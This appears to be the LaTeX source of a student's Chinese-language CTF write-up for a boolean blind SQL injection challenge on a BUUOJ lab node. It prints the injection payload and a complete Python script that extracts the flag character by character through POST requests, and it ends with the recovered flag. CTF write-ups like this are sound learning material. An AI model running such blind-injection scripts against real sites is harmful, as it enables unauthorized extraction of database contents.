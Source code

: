 \documentclass{article}
\begin{document}
   \paragraph*{本题为布尔盲注}:学长的讲解中告诉我们可以通过输入\\
   \texttt{if(ascii(substr((select(flag)from(flag)),{0},1))={1},1,2)}来判断给出的字符是否正确，正确为1，错误为2，但是回到宿舍开始操作的时候发现好像并没有这么简单，首先我就不知道flag有多长，后面查询了uuid的结构，可以知道flag有多长了，但是每个uuid是什么又需要遍历，这就打消了我手动的念头，于是我在网上搜索python怎么跟网页交互，
   发现了\texttt{requests}库中的\texttt{post}函数可以实现这一功能。然后再通过\texttt{view-source}知道了应该传递的参数为id,为了遍历字符，我使用了\texttt{string}库中的\texttt{printable}：
   \begin{figure}[H]
         \centering
         \includegraphics[width=0.8\textwidth]{./figure/web2.png}
         \caption{web2}
    \end{figure}
    最终代码如下
    \begin{verbatim}
    import requests
    import string

    flag = ''
    url = 'http://85b36b6c-c28f-4ae1-b573-634002afb14a.node5.buuoj.cn:81/'
    ascii_list = string.printable
    done = 0
    index = 10

    while done != 1:
        for i in ascii_list:
            input = 'if(ascii(substr((select(flag)from(flag)),{0},1))={1},1,2)'.format(index, ord(i))
            post_in = {"id": input}
            res = requests.post(url=url, data=post_in)
            
            if 'glzjin' in res.text:
                flag += i
                print(flag)
                index += 1
                
                if i == '}':
                    done = 1
                break
    \end{verbatim}
    最终得到flag为\textcolor{red}{flag\{0304dcdb\mbox{-}6bd1\mbox{-}4ed0\mbox{-}9fba\mbox{-}b2fbd68ea8c7\}}
\end{document}
